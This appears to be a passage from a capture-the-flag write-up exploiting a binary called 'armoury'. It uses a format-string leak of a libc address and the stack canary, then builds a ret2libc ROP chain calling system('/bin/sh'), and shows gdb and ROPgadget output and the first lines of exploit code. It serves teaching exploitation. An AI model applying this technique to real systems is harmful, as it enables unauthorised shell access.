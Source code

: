 We see that:  
- `%3$p`: Address of `<__write_nocancel+7>`  
- Offset to libc: `0xdb970`  
- Offset from libc to system: `0x3f480`  
- Hence: `%3$p` - offset to libc + offset from libc to system = address of system (in libc)

### 2.4. Address of "/bin/sh"

```  
gdb-peda$  find "/bin/sh"  
Searching for '/bin/sh' in: None ranges  
Found 1 results, display max 1 items:  
libc : 0x7ffff7b9bc19 --> 0x68732f6e69622f ('/bin/sh')

gdb-peda$ p 0x7ffff7b9bc19 -0x00007ffff7a3a000  
$4 = 0x161c19  
```

### 2.5. ROP Gadgets (pop rdi; ret)

```  
chanbin_lee123@instance-2:~$ ROPgadget --binary armoury  
Gadgets information  
============================================================  
0x0000000000000d03 : pop rdi ; ret  
```

-----

## 3. POC  
```  
BUFFER [24]  
CANARY [8]  
DUMMY [8]  
POP RDI; RET [8]  
ADDRESS OF "/BIN/SH" [8]  
ADDRESS OF SYSTEM() [8]  
```  
(Basic ret2libc structure in a 64-bit environment)

-----

## 4. Exploit Rundown

Full exploit can be found in the next section.

I'll try my best to explain everything.. So please ask if you don't understand
something written here.

```  
payload = ""  
  
r.recvuntil("Enter the name of Rifle to get info:\n")  
r.send("%3$p.%13$p.%14$p\n") # libc address, canary, saved rbp  
```  
↑ We want the 3rd, 13th and 14th arguments so we leak those.

